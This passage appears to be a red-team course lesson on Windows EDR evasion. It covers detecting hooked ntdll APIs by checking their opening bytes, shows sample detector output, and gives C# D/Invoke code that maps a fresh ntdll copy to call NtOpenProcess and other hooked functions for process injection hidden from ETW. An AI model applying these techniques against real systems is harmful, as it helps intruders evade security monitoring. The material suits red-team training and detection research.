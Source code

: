 If you already have code-execution capabilities on a machine running an EDR, can figure out which APIs are hooked by reading our processes memory space.  [Matt Hand](https://twitter.com/matterpreter) came up with a simple (yet elegant) approach which he published in his [HookDetector](https://github.com/matterpreter/OffensiveCSharp/blob/master/HookDetector/Program.cs) project.  It's based on the premise that the instructions for Nt APIs always start the same way:

```
mov r10, rcx
mov eax ...
```

  

We can find our functions of interest within the instance of ntdll loaded into our process, read the first 4 bytes and compare them to this known pattern.  If they don't match, we can conclude that they're hooked.  Another great "feature" is that this implementation doesn't rely on API that may itself be hooked (such as NtReadVirtualMemory).

Make sure the driver is loaded, then run the tool.  You should get output like this:

```
NTDLL Base Address: 0x7FFF29370000
    NtClose                   0x7FFF2940ECE0 - SAFE
    NtAllocateVirtualMemory   0x7FFF2940EE00  - HOOK DETECTED
    Instructions:             E9 D3 13 FE BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
    NtAllocateVirtualMemoryEx 0x7FFF2940F9B0 - SAFE
    NtCreateThread            0x7FFF2940F4C0 - SAFE
    NtCreateThreadEx          0x7FFF29410370  - HOOK DETECTED
    Instructions:             E9 23 FF FD BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
    NtCreateUserProcess       0x7FFF29410470 - SAFE
    NtFreeVirtualMemory       0x7FFF2940EEC0 - SAFE
    NtLoadDriver              0x7FFF29410C10 - SAFE
    NtMapViewOfSection        0x7FFF2940F000 - SAFE
    NtOpenProcess             0x7FFF2940EFC0  - HOOK DETECTED
    Instructions:             E9 B3 11 FE BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
    NtProtectVirtualMemory    0x7FFF2940F500 - SAFE
    NtQueueApcThread          0x7FFF2940F3A0 - SAFE
    NtQueueApcThreadEx        0x7FFF29411830 - SAFE
    NtResumeThread            0x7FFF2940F540 - SAFE
    NtSetContextThread        0x7FFF29411D30 - SAFE
    NtSetInformationProcess   0x7FFF2940EE80 - SAFE
    NtSuspendThread           0x7FFF29412350 - SAFE
    NtUnloadDriver            0x7FFF29412490 - SAFE
    NtWriteVirtualMemory      0x7FFF2940F240  - HOOK DETECTED
    Instructions:             E9 F3 0F FE BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
```
  

This shows that **NtAllocateVirtualMemory**, **NtCreateThreadEx,** **NtOpenProcess** and **NtWriteVirtualMemory** are hooked.  We can also see that there are also a lot of APIs that are not hooked.  A perfectly legitimate strategy would be to use a process injection technique that utilises those unhooked APIs, and just avoid the hooked ones altogether.  However, for the purposes of this lesson we're going to explicitly demonstrate how to use these hooked APIs.

  

## Manual Mapping

Use D/Invoke's **Map.MapModuleToMemory()** method to read and map a new instance of ntdll.dll into the process.  This won't stomp over the existing ntdll in memory, but rather be mapped into a new memory region.

```csharp
var ntdll = Map.MapModuleToMemory(@"C:\Windows\System32\ntdll.dll");
```

  

If you can inspect the memory regions of the process in a debugger, you'll see that the module is allocated in a random piece of memory, not appearing to be backed by a module on disk.

![[92. Manual Mapping.png]]

Setup the parameters for calling **NtOpenProcess** and then use **Generic.CallMappedDLLModuleExport()**, passing in the mapped ntdll module, the name of the export, and the desired parameters.

```csharp
var oa = new Data.Native.OBJECT_ATTRIBUTES();
var cid = new Data.Native.CLIENT_ID
{
    UniqueProcess = (IntPtr)1234
};

var hProcess = IntPtr.Zero;
var parameters = new object[]
{
    hProcess, Data.Win32.Kernel32.ProcessAccessFlags.PROCESS_ALL_ACCESS, oa, cid
};

var status = (Data.Native.NTSTATUS)Generic.CallMappedDLLModuleExport(
    _ntdllMap.PEINFO,
    _ntdllMap.ModuleBase,
    "NtOpenProcess",
    typeof(Native.DELEGATES.NtOpenProcess),
    parameters,
    false);

if (status == Data.Native.NTSTATUS.Success)
    hProcess = (IntPtr)parameters[0];
```
  

Do this for the remaining APIs and perform the injection as before.  You should not see any of the API calls in the ETW tracing session.

  Don't forget to call **Map.FreeModule(ntdll)** to free the mapped instance of ntdll from the process after use.  There's no need to leave it lying around and may serve as an indicator.

  

One downside is that D/Invoke needs to call some APIs such as **NtAllocateVirtualMemory** and **NtWriteVirtualMemory** in order to map the module into memory.


